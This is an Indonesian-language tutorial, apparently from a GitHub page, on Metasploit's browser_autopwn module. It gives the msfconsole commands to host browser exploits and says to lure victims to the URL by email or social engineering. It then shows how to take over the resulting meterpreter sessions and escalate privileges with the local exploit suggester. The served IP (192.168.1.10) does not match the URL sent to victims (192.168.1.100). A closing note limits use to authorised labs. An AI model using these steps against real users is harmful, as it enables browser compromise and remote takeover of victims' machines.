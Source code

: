 # Eksploitasi Otomatis dengan AutoPwn 

## A. Apa itu AutoPwn?

[AutoPwn](https://github.com/beefproject/beef/wiki/Metasploit#browser-autopwn) adalah fitur dari Metasploit yang secara otomatis memuat berbagai eksploit dan menyerang target berdasarkan kerentanannya, terutama melalui browser (client-side attack).

Modul terkait:

```
auxiliary/server/browser_autopwn
```

> Fitur ini sudah deprecated dalam versi baru, tetapi konsepnya masih digunakan dalam serangan berbasis exploit suggestion + exploit chaining.

Prasyarat:
- Kali Linux dengan Metasploit terinstal.
- Browser korban (misalnya `Windows 7` + `IE`, `Firefox` versi lama).
- Jaringan lokal/lab untuk pengujian.
- Pengetahuan dasar Metasploit.

### 1. Setup AutoPwn

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan modul AutoPwn:

   ```
   use auxiliary/server/browser_autopwn
   ```

3. Atur parameter penting:

   ```
   set LHOST 192.168.1.10
   set SRVHOST 192.168.1.10
   set SRVPORT 80
   set SSL false
   set verbose true
   ```

   Keterangan:
   - `LHOST`: IP Attacker
   - `SRVHOST`:  IP hosting payload
   - `SRVPORT`: Port hosting payload
   - `SSL`: Non-SSL (HTTP)
   - `VERBOSE`: Menampilkan output lebih detail (debugging)
  
4. Jalankan:

   ```
   run
   ```

   Metasploit akan:
   - Menjalankan web server dengan banyak exploit browser.
   - Membuat payload otomatis.
   - Menunggu korban mengakses URL (via social `engineering`, `email`, `dsb`).
   - Menyuntikkan exploit dan mencoba men-deploy payload.
  
### 2. Teknik Penyebaran

Kirim URL ke korban: http://192.168.1.100/
- Jika browser rentan (`IE6`, `Firefox 10`, `dll`), exploit akan dikirim.
- Otomatis membuka sesi meterpreter.

### 3. Hasil Eksploitasi

Cek sesi:

```
sessions -l
```

Interaksi:

```
sessions -i 1
```

### 4. Alternatif: Auto Exploitation dengan Exploit Suggestion

Langkah:

```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
 
Kemudian gunakan exploit yang disarankan:

```
use exploit/linux/local/xxx
set SESSION 1
run
```

## Catatan Etis dan Legal
- AutoPwn hanya boleh digunakan dalam lab atau lingkungan izin.
- Jangan digunakan terhadap sistem publik atau tanpa persetujuan.
- Risiko legal dan etika sangat tinggi jika digunakan sembarangan.

